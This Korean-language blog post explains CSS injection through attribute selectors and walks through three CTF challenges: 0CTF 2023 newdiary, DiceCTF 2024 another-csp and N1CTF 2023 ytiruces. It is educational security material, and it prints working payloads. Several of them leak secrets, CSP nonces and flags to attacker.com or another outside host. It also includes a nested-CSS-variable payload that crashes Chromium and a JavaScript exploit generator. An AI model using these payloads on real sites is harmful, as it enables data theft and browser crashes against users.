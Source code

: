 ```yaml
---
title: CSS injection#1
description: 다양한 CSS injection을 배워봅시다.
# author: 임예준(Burnnnnny)
date: 2024-10-14 02:17:33 +0900
tags: [Tech, Webhacking, CTF]
categories: [Tech, Webhacking, CTF]
comments: false
math: true
mermaid: false
pin: false
image: /assets/img/CSS_injection/CSS_injection_thumbnali.png
---
```


## 목차
1. CSS injection
2. CSS Attribute Selector
3. 0CTF 2023-newdiary
4. Dice CTF 2024-another-csp
5. N1CTF 2023-ytiruces
6. comment
7. Reference

---

<br>
안녕하세요! Knights of the SPACE의 멤버로 활동하고 있는 임예준(Burnnnnny)입니다.

Client side 기법 중 하나인 CSS injection에 대해 알아보도록 하겠습니다.

이번에는 CSS injection에 대한 기본적인 개념 설명과 CTF 문제로 알아보는 다양한 CSS injection 기법을 소개하도록 하겠습니다.

### 배경지식
CSS injection에 대한 기본적인 개념을 간단히 설명하긴 하지만 CSS injection에 관련된 CTF나 워게임 풀이 경험이 있다면 해당 문서 내용을 이해하는 데 도움이 됩니다.

---
### CSS injection
CSS injection은 웹페이지에 임의의 CSS 구문을 삽입하거나 <style> 태그를 사용하여 악의적인 스타일을 주입하는 공격 기법을 말합니다.

보통 HTML을 주입할 수 있으나 CSP(Content Security Policy)에 의해 JavaScript를 사용할 수 없는 경우나 DOMPurify로 인해 위험한 태그들이 sanitize 됐을 때 CSS로 악의적인 행동을 수행할 수 있습니다.

또한 CSS는 외부 리소스를 불러오는 기능을 제공하기 때문에 외부 서버로 요청을 보낼 수 있습니다. 

> DOMPurify는 기본적으로 독립된 <style> 태그는 sanitize하지만, 다른 태그 내부에 중첩된 <style> 태그는 sanitize하지 않습니다.

![DOMPurify Example 1](/assets/img/CSS_injection/1.png){: width="60%" style="display: block; margin: 0 auto 25px auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}

![DOMPurify Example 2](/assets/img/CSS_injection/2.png){: width="60%" style="display: block; margin: 0 auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}


---

### CSS 특성 선택자

CSS 특성 선택자는 요소의 특성을 선택할 수 있는 기능을 제공합니다. 
<br>

| 구문 | 설명 |
|------|------|
| `[attr]` | `attr` 이라는 이름의 특성을 가진 요소를 선택합니다. |
| `[attr=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. |
| `[attr~=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. `attr` 특성은 공백으로 구분한 여러 개의 값을 가지고 있을 수 있습니다. |
| `[attr^=value]` | `attr` 이라는 특성값을 가지고 있으며, 접두사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
| `[attr$=value]` | `attr` 이라는 특성값을 가지고 있으며, 접미사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
|  `[attr*=value]` | `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 이 요소를 선택합니다. |



CSS injection은 기본적으로 CSS 특성 선택자를 이용하여 조건이 맞을 경우에 외부서버로 요청을 보내 HTML요소의 값을 유출합니다.  

---

#### tip!

CTF 문제를 풀 때 많은 참가자들이 `[attr^=value]` 선택자만을 사용하여 CSS injection을 수행합니다.

이 방식은 각 문자를 하나씩 유출해야 하므로, 이론상 (사용 가능한 문자 수 X 유출하려는 요소의 데이터 길이)만큼의 요청이 필요해 익스플로잇을 하는데 많은 시간이 걸립니다.

하지만 더욱 효율적인 방법이 있습니다!

1. `[attr$=value]` 선택자 활용: 
   접두사(`^`)뿐만 아니라 접미사(`$`)도 함께 유출하면 필요한 요청 횟수를 절반으로 줄일 수 있습니다.

2. 병렬 요청 활용: 
   여러 선택자를 한 번에 요청하여 익스플로잇 시간을 대폭 단축할 수 있습니다. 

**코드예시**
```css
<style>
input[name="secret"][value^="da"] { background: url(https://attacker.com/leak?q=da) }
input[name="secret"][value^="db"] { background: url(https://attacker.com/leak?q=db) }
input[name="secret"][value^="dc"] { background: url(https://attacker.com/leak?q=dc) }
/* ... 중략 ... */
input[name="secret"][value^="dz"] { background: url(https://attacker.com/leak?q=dz) }
</style>

```

이렇게 하면 한 번의 요청으로 여러 가능성을 동시에 테스트할 수 있어, 전체 익스플로잇 과정의 속도를 크게 향상시킬 수 있습니다.

이러한 최적화 기법들을 적절히 조합하면, CSS injection 공격의 효율성을 크게 높일 수 있습니다.

---
### 0CTF 2023-newdiary
2023년 0CTF에서 출제된 newdiary라는 문제와 함께 일명 **'One-shot CSS injection'**을 설명하도록 하겠습니다. 

**'One-shot CSS injection'**은 이름처럼 유출하고자 하는 데이터를 한번에 유출하는 기법입니다. 


전체 풀이 설명보단 원리를 위주로 설명할 예정이니 전체 풀이가 궁금하신 분들은 Reference를 참고해주시면 됩니다.

해당 문제의 소스코드가 궁금하신 분은 [ctf-archives](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)깃허브에서 소스코드를 확인해 보실 수 있습니다. 

newdiary는 innerHTML을 사용하여 DOM 기반 XSS가 가능하며, 이를 통해 FLAG가 담긴 쿠키를 탈취하는 문제입니다.

그러나 
```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```
다음과 같이 CSP에 `nonce`가 걸려있었고 `nonce`의 조합이 `a-zA-Z0-9`이며 32자 길이고 각 요청마다 `nonce`가 바뀝니다. 

그러나 `unsafe-inline`으로 인해 `<style>`태그가 사용이 가능하고 `unpkg.com`에서 파일을 업로드해 외부 CSS 사용이 가능합니다.  

그리고 `<meta>`태그내에 `nonce`가 있기 때문에 CSS로 `nonce`를 유출할 수 있습니다.

그럼 어떻게 한 번의 CSS injection 요청으로 nonce를 유출한 뒤 XSS를 통해 쿠키를 얻을 수 있을까요?

문제를 푸는데 가장 중요한 개념은 `[attr*=value]` 입니다.  

`[attr*=value]`는 `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 

이 요소를 선택하는 CSS 특성선택자입니다. 

먼저 텍스트 조각들을 각각 3개의 문자를 포함하는 많은 작은 부분 문자열로 나눕니다. 

**코드예시**
```css
script[nonce*='aaa']{ --aaa: url('http://attacker.com/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://attacker.com/leak?x=aab'); }
script[nonce*='aac']{ --aac: url('http://attacker.com/leak?x=aac'); }
script[nonce*='aad']{ --aad: url('http://attacker.com/leak?x=aad'); }
script[nonce*='aae']{ --aae: url('http://attacker.com/leak?x=aae'); }
script[nonce*='aaf']{ --aaf: url('http://attacker.com/leak?x=aaf'); }
script[nonce*='aag']{ --aag: url('http://attacker.com/leak?x=aag'); }
script[nonce*='aah']{ --aah: url('http://attacker.com/leak?x=aah'); }
script[nonce*='aai']{ --aai: url('http://attacker.com/leak?x=aai'); }
script[nonce*='aaj']{ --aaj: url('http://attacker.com/leak?x=aaj'); }
script[nonce*='aak']{ --aak: url('http://attacker.com/leak?x=aak'); }

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
  )
```
`-webkit-cross-fade`를 사용하는 것은 여러 이미지를 로드하기 위함입니다. 

`nonce`를 예를 들어 `hspace`라고 가정해보겠습니다.

- ?x=hsp
- ?x=spa
- ?x=pac
- ?x=ace

다음과 같이 서버가 요청을 받을 겁니다. 

그러면 일부 문자가 겹쳐 규칙에 따라 결합하면 전체 `nonce`를 얻을 수 있습니다. 

해당 문제에 쓰인 기법을 직접 테스트해보고 싶으신 분들은 [sCSSLeak](https://github.com/ixSly/sCSSLeak)에서 git clone 한 뒤 테스트 해보실 수 있습니다. 


**'One-shot CSS injection'**은 특정 경우에서만 사용가능하지만 한번에 데이터전체를 유출한다는 점에서

제가 위에서 설명한 tip보다 훨씬 강력한 기법입니다. 

---

### Dice CTF 2024-another-csp
2024년 Dice CTF에서 출제된 another-csp라는 문제와 함께 Chromium Crash로 정보를 유출하는 방법을 설명하도록 하겠습니다.

해당 문제의 소스코드가 궁금하신 분은 [dicegang](https://github.com/dicegang/dicectf-quals-2024-challenges/tree/main/web/another-csp)깃허브에서 소스코드를 확인해 보실 수 있습니다. 


소스코드를 간단히 설명하자면 봇이 현재 실행중인지 아닌지를 확인할 수 있으며 문제서버의 token을 안다면 FLAG를 얻을 수 있습니다.


#### index.html
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>another-csp</title>
	<meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline'; style-src 'unsafe-inline'">
</head>
<body>
	<iframe id="sandbox" name="sandbox" sandbox></iframe>
</body>
<script>
	document.getElementById('form').onsubmit = e => {
		e.preventDefault();
		const code = document.getElementById('code').value;
		const token = localStorage.getItem('token') ?? '0'.repeat(6);
		const content = `<h1 data-token="${token}">${token}</h1>${code}`;
		document.getElementById('sandbox').srcdoc = content;
	}
</script>
</html>
```
`iframe`의 sandbox와 CSP또한 `default-src 'none';`으로 상당히 엄격하게 설정되어있는 것을 확인할 수 있습니다. 

sandbox때문에 javaScript도 쓸 수 없으면서 
보통의 CSS injection은 `img-src`나 `font-src` CSP가 허용된 경우 외부에 요청을 보내 유출하지만 CSP가 `default-src 'none'`으로 외부로는 요청보내기 어렵습니다. 


해당 문제를 푸는 방법은 무거운 CSS를 적용하여 브라우저의 크래시 발생 여부로 token을 유출하는 문제입니다.

[CSS:Using a color made with color-mix in relative color syntax causes the tab to crash with a SIGILL](https://issues.chromium.org/issues/41490764)

해당 버그를 이용하여 크래시를 발생시킵니다. 

```html
<style>
  h1[data-token^="a"] {
    --c1: color-mix(in srgb, blue 50%, red);
    --c2: srgb(from var(--c1) r g b);
    background-color: var(--c2);
  }
</style>
```
혼합색상을 사용하여 `data-token`이 접두사로 일치한다면 브라우저 오류를 일으켜, 웹페이지가 로드되는 시간을 길게하여 브라우저 상태를 파악해 token을 유출합니다. 

그런데 해당 코드는 현재 브라우저에서는 패치된듯 보이고 변수를 중첩하여 생성하는 CSS는 현재 크로미움 브라우저(버전 129.0.6668.101)에서도 크래시가 발생하는 모습을 볼 수 있습니다. 


**코드예시**
```html
<h1 data-token="abcd123">abcd123</h1>

<style>
   html:has([data-token^="a"]) {
      --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
      --b: var(--a),var(--a),var(--a),var(--a),var(--a);
      --c: var(--b),var(--b),var(--b),var(--b),var(--b);
      --d: var(--c),var(--c),var(--c),var(--c),var(--c);
      --e: var(--d),var(--d),var(--d),var(--d),var(--d);
      --f: var(--e),var(--e),var(--e),var(--e),var(--e);
      --g: var(--f),var(--f),var(--f),var(--f),var(--f);
  }
  *{
    background-image: var(--g)
  }
</style>
```
직접 브라우저에서 실행시 아래 사진과 같이 STATUS_STACK_OVERFLOW 오류가 발생한 모습을 볼 수 있습니다. 

![3](/assets/img/CSS_injection/3.png)


CSS injection이 가능하지만 CSP로 인해 외부 요청이 막혔을 때도 정보를 유출할 수 있다는 점에서 흥미로운 기법이라고 생각합니다

---

### N1CTF 2023-ytiruces

2023년 N1CTF에서 출제된 ytiruces라는 문제와 함께 다른 페이지의 정보를 유출하는 공격 기법인 **webVTT cue XS-Leak**을 설명하도록 하겠습니다.

해당 문제의 전체 소스코드가 궁금하신 분은 [Nu1LCTF](https://github.com/Nu1LCTF/n1ctf-2023/tree/main/web/ytiruces) 깃허브에서 확인해 보실 수 있습니다. 

**webVTT cue XS-Leak**은 HTML과 CSS를 함께 주입하면서 기존의 CSS injection과 달리 공격 벡터가 다른 경로에 위치한 정보를 유출하는 기법입니다. 

#### app.js

```js
const express = require('express');
const cookieParser = require('cookie-parser');
const app = express();
const port = 3000;

app.use(cookieParser());
app.use('/static', express.static('static'))
app.use((req, res, next) => {
    res.set("X-Frame-Options", "DENY");
    res.set(
      "Content-Security-Policy", 
      "style-src 'unsafe-inline'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"
    );
    next();
  });
app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

app.get('/flag', (req, res) => {
    res.type('text/plain');
    const name = req.query.name || 'admin';
    if (typeof name !== 'string' || name.length > 32 || /[^\x00-\x7f]/.test(name)) {
        res.send('Invalid name!');
        return;
    }
    const flag = req.cookies.flag || 'n1ctf{[A-Za-z]+}';
    res.send(`${name} ${flag}`);
});

app.listen(port, '0.0.0.0', () => {
    console.log(`App listening at http://0.0.0.0:${port}`);
});
```

app.js코드의 CSP를 보면 DOMPurify와 inline-css가 허용되어 CSS injection이 가능합니다.

그리고 '/flag' 경로에서 쿼리값의 타입,길이,아스키범위 검사 이후 `${name} ${flag}` 이런 형태로 `text/plain` MIME type 응답을 반환합니다.   


#### index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>YTIRUCES</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"></script>
    <script src="/static/init.js"></script>
</head>
<body>
    <header>
        <h1>YTIRUCES</h1>
    </header>
    <nav>
        <a href="#home">Home</a>
    </nav>
    <div class="container">
        <article>
          loading...
        </article>
    </div>
</body>
</html>
```

#### /static/init.js
```js
window.addEventListener('load', function() {
    var params = new URLSearchParams(window.location.search);
    var danger_content = params.get('content') || "!dlrow olleH";
    var content = DOMPurify.sanitize(danger_content);
    document.querySelector('article').innerHTML = content;
});
```

init.js를 보면 메인 페이지에서 DOMPurify에 의해 XSS가 막혔지만 HTML injection이 가능합니다.

그럼 이제 어떻게 FLAG를 유출할 수 있을까요?

여기서 필요한 배경지식은 WebVTT, `<track>` 태그, `::cue`라는 CSS 의사요소입니다.

**배경지식**
>WebVTT는 비디오나 오디오와 함께 표시되는 텍스트 트랙을 정의하는 파일 형식입니다. 주로 자막, 캡션, 챕터 등을 표현하는 데 사용됩니다.

>`::cue`는 WebVTT 큐의 텍스트 콘텐츠를 스타일링하는 데 사용되는 CSS 의사 요소입니다. 이를 통해 자막이나 캡션의 스타일을 세밀하게 제어할 수 있습니다.

>`<track>` 태그는 HTML5 `<video>` 또는 `<audio>` 요소의 자식으로 사용되며, 외부 텍스트 트랙 파일(예: WebVTT 파일)을 지정합니다. 이를 통해 비디오나 오디오에 자막, 캡션 등을 추가할 수 있습니다.

해당 배경지식들은 웹에서 비디오나 오디오의 자막에 쓰이는 개념들입니다.


푸는 방법을 간단히 요약하자면 외부에서 `<video>`를 가져온 뒤 <track> 태그로 '/flag'경로를 webVTT texttrack으로 처리하고 `::cue`로 CSS 선택자로 조건이 맞는 FLAG를 공격자 사이트로 유출하는 기법입니다. 

먼저 '/flag'경로는 임의 문자열을 FLAG앞에 위치할 수 있습니다. 그리고 개행 또한 가능합니다.

그럼 공격 방법을 단계별로 설명하겠습니다:

1. 외부 비디오 소스를 참조하는 `<video>` 태그를 삽입합니다.
2. `<video>`태그 내부에 `<track>` 태그를 추가합니다.
3. `<track>` 태그의 src 속성을 '/flag' 경로로 설정하고, 추가 파라미터를 포함시킵니다.
4. 이 파라미터에 WebVTT 형식의 헤더와 타임스탬프를 포함시켜 '/flag' 경로의 응답을 WebVTT 파일로 해석되도록 합니다.

이를 구현한 페이로드는 다음과 같습니다:

```html
<video muted autoplay controls src="//attacker.com/a.mp3">
  <track default src="/flag?name=WEBVTT%0d00:00.000-->00:30.000%0d<v"/>
  <style>CSS injection payload...</style>
</video>
```

그리고 `<stlye>`태그안에 `::cue`로 FLAG를 CSS injection으로 유출합니다.

#### exploit
```js
let base = 'https://ytiruces.ctfpunk.com';
let base2 = '/?content=%3Cvideo%20muted%20autoplay%20controls%20src=//o.cal1.cn/s.mp3%3E%3Ctrack%20default%20src=%22/flag?name=WEBVTT%250d00:00.000--%3E00:30.000%250d%3Cv%22/%3E%3Cstyle%3E$CSS$%3C/style%3E%3C/video%3E';

let genCSS = (known,u)=>{
    let pool = [
       [...'abcdefghi'], 
       [...'jklmnopqr'], 
       [...'stuvwxyz'], 
       [...'ABCDEFGHI'], 
       [...'JKLMNOPQR'], 
       [...'STUVWXYZ}'],
   ];
    let ret = '';
    for (let i of pool[u]) {
        ret += `::cue(v[voice^=%22${known}${i}%22]){background:url(//o.cal1.cn/?${known}${i})}`
    }
    return ret
}

let known = 'n1ctf{';

console.log([
    base + base2.replace('$CSS$', genCSS(known, 0)),
    base + base2.replace('$CSS$', genCSS(known, 1)),
    base + base2.replace('$CSS$', genCSS(known, 2)),
    base + base2.replace('$CSS$', genCSS(known, 3)),
    base + base2.replace('$CSS$', genCSS(known, 4)),
    base + base2.replace('$CSS$', genCSS(known, 5)), 
])

```


참고로 거의 비슷한 기법이 ASIS CTF 2021 본선에서 classic이란 문제로 등장했었습니다.
- [ASIS 2021 final web classic](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/ASIS/2021/Finals/web/classic/stuff) 

- [parrot409-poc for classic](https://gist.github.com/parrot409/34194eb82b32e36d2a96d0bf3115a901)

상황자체는 조금 다르지만 기법 자체는 비슷해 보입니다. 

여담이지만 저의 경우 2024년에 진행한 YISF(순천향대 청소년 정보보호 페스티벌) 예선에 해당 기법을 이용한 문제를 출제하였습니다.

[cinema](https://dreamhack.io/wargame/challenges/1380)란 문제로, 현재 드림핵에 포팅되어 있으니 기법을 이해하셨으면 직접 한번 풀어보는 것을 추천하겠습니다.

---

### comment
CTF에서 나온 새롭고 창의적인 기법들을 이해한 뒤 문서로 정리하는 작업이 힘들지만 재밌었습니다.

그리고 CSS injection은 저 개인적으로 JavaScript없이 Leak한다는 점에서 흥미로운 기법이라고 생각합니다.
 
이번에 작성한 문서가 CSS injection을 공부하시려는 분들에게 도움이 되길 바랍니다.🙂

---

### Reference
- [DOMPurify 3.1.7 "Glow Stick"](https://cure53.de/purify)
- [mdn-css-Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [CSS Injection: Attacking with Just CSS (Part 1)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)
- [CTF-archives-0CTF 2023-newdiary](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)
- [salvatore-abello-newdiary](https://github.com/salvatore-abello/CTF-Writeups/tree/main/0ctf%20-%202023/newdiary#css-exploit)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#leaking-a-blob-url)
- [ixSly-sCSSLeak](https://github.com/ixSly/sCSSLeak)
- [huli-0CTF 2023 Writeups](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/)
- [huli-DiceCTF 2024 Writeup](https://blog.huli.tw/2024/02/12/en/dicectf-2024-writeup/#webx2fsafestlist-2-solves)
- [0xOne - 2024 Dice CTF Write up \[Web\]](https://one3147.tistory.com/77)
- [huli-A Bunch of Web and XSS Challenges](https://blog.huli.tw/2023/12/03/en/xss-and-web-challenges/)
- [WebVTT_API](https://developer.mozilla.org/en-US/docs/Web/API/WebVTT_API)
- [N1CTF复现游记](https://dem0dem0.top/2023/10/20/n1ctf2023/)
